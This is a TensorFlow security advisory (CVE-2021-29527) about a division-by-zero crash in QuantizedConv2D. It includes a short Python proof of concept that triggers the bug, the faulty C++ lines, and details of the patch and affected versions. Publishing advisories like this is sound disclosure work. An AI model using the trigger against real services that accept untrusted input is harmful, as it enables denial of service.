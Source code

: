 ## TFSA-2021-016: Division by 0 in `QuantizedConv2D`

### CVE Number
CVE-2021-29527

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.QuantizedConv2D`:

```python
import tensorflow as tf

input = tf.zeros([1, 1, 1, 1], dtype=tf.quint8)
filter = tf.constant([], shape=[1, 0, 1, 1], dtype=tf.quint8)
min_input = tf.constant(0.0)
max_input = tf.constant(0.0001)
min_filter = tf.constant(0.0)
max_filter = tf.constant(0.0001)
strides = [1, 1, 1, 1]
padding = "SAME"


tf.raw_ops.QuantizedConv2D(input=input, filter=filter, min_input=min_input, max_input=max_input, min_filter=min_filter, max_filter=max_filter, strides=strides, padding=padding)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/00e9a4d67d76703fa1aee33dac582acf317e0e81/tensorflow/core/kernels/quantized_conv_ops.cc#L257-L259) does a division by a quantity that is controlled by the caller:

```cc
const int filter_value_count = filter_width * filter_height * input_depth;
const int64 patches_per_chunk = kMaxChunkSize / (filter_value_count * sizeof(T1));
```

### Patches
We have patched the issue in GitHub commit
[cfa91be9863a91d5105a3b4941096044ab32036b](https://github.com/tensorflow/tensorflow/commit/cfa91be9863a91d5105a3b4941096044ab32036b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.

